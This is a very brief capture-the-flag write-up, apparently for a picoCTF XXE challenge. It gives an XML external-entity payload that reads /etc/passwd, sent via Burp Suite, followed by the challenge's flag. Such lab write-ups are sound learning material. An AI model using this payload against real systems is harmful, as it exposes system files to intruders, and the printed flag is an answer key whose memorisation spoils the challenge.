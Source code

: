 XXE use burpsutie then inject this XXE payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data><ID>&example;</ID></data>
```

Flag:
```
picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```